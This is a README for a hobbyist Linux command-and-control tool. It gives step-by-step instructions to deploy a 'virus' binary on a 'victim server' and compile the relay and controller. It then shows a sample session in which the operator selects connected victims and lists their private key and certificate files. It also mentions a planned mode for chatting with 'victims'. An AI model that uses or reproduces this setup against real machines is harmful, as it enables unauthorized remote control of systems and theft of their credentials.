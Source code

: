 Linux Server C2 Controller

Step 1:
Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address

Step 2:
Copy tcsl.cpp to your Linux Server
virus.cpp to your victim server
host.cpp to your local machine as control side
and then compile:

g++ tcsl.cpp -o tcsl 
g++ host.cpp -o host 
g++ virus.cpp -o server 

Step 3: 
Open 3 terminals and run the command seperately:
./tcsl
Support any amounts of Clients' connections
the Host and Client is auto-recognized:  
./virus
./host

Step 4:
Please use 'hs' followed with the client numbers you pick.
For example: 'hs 1'
Use 'hh' to check the connected clients.

Step 5:
Enjoy your commands in the host terminal and control your client as terminal.
For example:
Connected to the server.
No client connected.

┌──(root♪hr0g) - [~]

└─# ls
Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~1]

└─# exit

Exited.
Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# ls 1

ca.crt
ca.key
dh.pem
ha.crt
ha.key
hr0g.crt
hr0g.key
server.conf

┌──(root♪hr0g) - [~1]

└─# hs 2
Client 2 selected.

┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.
Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1
Client 1 selected.

┌──(root♪hr0g) - [~1]
└─# exit

Exited.
Client 1:  Ip: 223.104.76.166
Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls
Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# 

use 'chatmode' to communicate with victims(under development)
